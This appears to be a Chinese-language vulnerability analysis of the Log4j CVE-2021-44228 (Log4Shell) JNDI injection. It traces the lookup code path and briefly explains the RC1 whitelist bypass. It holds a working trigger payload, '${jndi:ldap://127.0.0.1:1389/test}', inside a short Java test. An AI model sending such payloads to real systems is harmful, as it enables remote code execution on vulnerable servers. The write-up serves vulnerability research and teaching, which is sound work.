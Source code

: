 # CVE-2021-44228 远程代码执行
- [CVE-2021-44228 远程代码执行](#cve-2021-44228-远程代码执行)
  - [影响范围](#影响范围)
  - [原理分析](#原理分析)
    - [日志等级](#日志等级)
    - [${ Replace](#-replace)
    - [Lookup->RCE](#lookup-rce)
  - [RC1 Bypass](#rc1-bypass)
## 影响范围
Version < 2.15.0-rc2
## 原理分析
该漏洞主要是由于Log4j提供一个lookup功能来进行远程配置文件的加载,而该lookup功能支持jdni协议,并且lookup的参数无过滤和限制造成JNDI注入.
该漏洞触发点较多,以Logger.error()方法为例,测试代码如下
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class main {
    private  static final Logger LOGGER = LogManager.getLogger();
    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://127.0.0.1:1389/test}");
    }
    }

```
### 日志等级
在error方法中首先调用`logIfEnabled`来判断日志功能是否开启.
![](2021-12-14-19-20-44.png)
其中第二个参数`Level.ERROR`即日志等级为`ERROR等级(200)`.
![](2021-12-14-19-22-53.png)
关于不同的日志等级定义在`StandardLevel`中,如下
![](2021-12-14-20-33-17.png)
在`logIfEnabled`中调用`isEnabled`来判断是否开启日志功能,同时把日志等级(200)传入,只有返回为true才会进入到后续的日志记录方法`logMessage`中.
![](2021-12-14-19-25-40.png)
而在`isEnabled`中最后是调用了`org/apache/logging/log4j/core/Logger.java#filter`进行判断.
![](2021-12-14-20-35-09.png)
可以看到需要满足` intLevel >= level.intLevel()`,也就是要小于等于200,而从前面的日志等级可以看出小于等于200的,还有`FATAL`,OFF为0,即不会进行任何记录操作.  
### ${ Replace
在后续的日志记录方法中一路跟到`MessagePatternConverter.java#format`方法中,
在`format`方法中经过一个`if (config != null && !noLookups)`判断进入for循环,其中`noLookups`默认为false,即`!noLookups`为true,即允许lookup.
![](2021-12-14-22-25-19.png)
在循环中对message信息字符串进行遍历,如果遇到以`${`开头的部分则提取其中的部分调用`config.getStrSubstitutor().replace`进行替换.
### Lookup->RCE
在`replace`中主要是调用了两次`substitute`方法,一直来到`substitute`的1033行,调用`resolveVariable`来处理之前从`${}`中提取的字符串.
![](2021-12-14-22-43-29.png)
在`resolveVariable`中则直接调用`StrLookup.lookup`方法.
![](2021-12-14-22-45-44.png)
在其`lookup`方法中根据前四个字符来决定使用的协议.
![](2021-12-14-22-48-00.png)
其中支持的协议如下
![](2021-12-14-22-51-31.png)
可以看到支持JNDI协议,而此时的name变量即是`${}`当中的字符串,根据前四个字符为`JNDI`,最后调用`jndiLookup.lookup`造成了JDNI注入.
![](2021-12-14-22-57-23.png)
调用栈如下:
![](2021-12-14-22-56-48.png)
## RC1 Bypass
1. 需要用户手动开启lookup功能
2. RC1 对LDAP地址进行了白名单校验,但白名单校验的catch 未return,导致可以构造异常进入catchd段跳过白名单校验.